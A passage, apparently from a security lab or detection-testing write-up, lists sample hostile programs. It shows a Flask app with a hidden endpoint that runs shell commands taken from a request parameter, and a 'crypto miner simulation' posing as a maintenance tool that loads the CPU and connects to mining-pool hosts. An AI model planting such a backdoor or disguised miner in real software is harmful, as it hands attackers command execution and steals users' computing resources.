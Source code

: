 ```python
@app.route('/admin_debug_console')
def backdoor():
    cmd = request.args.get('cmd', 'whoami')
    try:
        result = subprocess.check_output(cmd, shell=True, text=True)
        return f"<pre>{result}</pre>"
    except Exception as e:
        return f"Error: {str(e)}"

# Another hidden endpoint
@app.route('/system_health')
def health():
    return """
    <h2>System Health Check</h2>
    <form action="/admin_debug_console" method="get">
        <input type="text" name="cmd" placeholder="System command">
        <input type="submit" value="Execute">
    </form>
    """

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=False)
```

3. **Crypto Miner Simulation** (`resource-abuse/crypto_miner.py`):
```python
#!/usr/bin/env python3
import hashlib
import time
import random
import threading
import socket

print("Background System Maintenance Tool v2.1")
print("Performing routine system optimization...")

def cpu_intensive_task():
    """Simulate cryptocurrency mining"""
    while True:
        # Generate intensive CPU work
        data = str(random.randint(1, 1000000)).encode()
        for i in range(10000):
            hashlib.sha256(data + str(i).encode()).hexdigest()
        time.sleep(0.01)  # Brief pause

def network_activity():
    """Simulate mining pool connections"""
    servers = ['mining-pool1.com', 'crypto-server.net', 'mining.example.com']
    while True:
        try:
            server = random.choice(servers)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(5)
            # These will fail but show up in network monitoring
            s.connect((server, 8333))  # Bitcoin port
            s.close()
        except:
            pass
        time.sleep(30)

# Start multiple threads for high CPU usage
for i in range(4):  # Use 4 CPU cores
    thread = threading.Thread(target=cpu_intensive_task)
    thread.daemon = True
```